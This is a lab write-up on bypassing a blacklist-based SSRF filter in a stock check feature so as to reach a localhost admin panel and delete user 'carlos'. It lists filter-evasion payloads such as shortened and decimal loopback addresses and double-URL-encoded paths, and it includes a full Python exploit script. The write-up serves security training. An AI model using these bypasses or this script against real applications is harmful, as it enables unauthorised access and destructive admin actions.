 Vulnerable feature - stock check functionality

Goal - Change the stock check URL to access the admin interface at http://localhost/admin and delete the user Carlos.

Analysis: 
http://127.0.0.1/ -> blocked
http://127.1/ -> bypass
http://2130706433/ -> bypass

*Google: IP address to decimal version*
127.0.0.1 -> 2130706433

http://127.1/admin -> blocked

- URL decoding one time (Burp - Ctrl+Shift+u)
- regex search using a blacklist of strings

==Encode [a]dmin twice in burp== (Convert selection -> URL -> URL-encode all characters)
admin interface: http://127.1/%25%36%31dmin
delete carlos: http://127.1/%25%36%31dmin/delete?username=carlos

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(url):
    delete_user_url_ssrf_payload = 'http://127.1/%61dmin/delete?username=carlos'
    check_stock_path = '/product/stock'
    params = {'stockApi': delete_user_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)

    # Check if user was deleted
    params2 = {'stockApi': 'http://127.1/%61dmin/'}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was not successful.")

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)

if __name__ == "__main__":
    main()
```